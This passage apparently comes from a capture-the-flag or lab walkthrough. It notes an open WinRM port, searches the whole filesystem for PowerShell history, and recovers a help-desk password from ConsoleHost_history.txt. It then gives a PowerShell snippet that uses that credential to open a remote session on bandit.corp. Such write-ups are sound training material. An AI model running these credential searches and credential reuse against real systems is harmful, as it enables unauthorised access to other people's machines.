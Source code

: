 - Port 5985 is open - which is the Powershell remoting port
WSMan - Windows Remote Management

- Recursively try and find anything Windows related:

```bash
grep --color=auto -irnw / -e "powershell" 2>/dev/null

grep --color=auto -irnw / -e "pssession" 2>/dev/null

```
- Found a ConsoleHost_history.txt file:

![image47](../resources/f80c8719a74a46d0b302ed50713e1dde.png)


![image48](../resources/3b7289e9471948bba6f0c0b250f454a4.png)

**safeuserHelpDesk : Passw0rd**

- Run:

```bash
pwsh
```

```powershell
$ClearPassword = "Passw0rd"
$SecurePass = ConvertTo-SecureString $ClearPassword -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential("safeuserHelpDesk", $SecurePass)

Enter-PSSession -ComputerName bandit.corp `
    -Credential $credential `
    -ConfigurationName testHelpDesksafe `
    -Authentication Negotiate

```

![image49](../resources/aa5beb834be74ff48bf28533f0ff740a.png)


![image50](../resources/f012291f116f44b59c830c15502eab52.png)
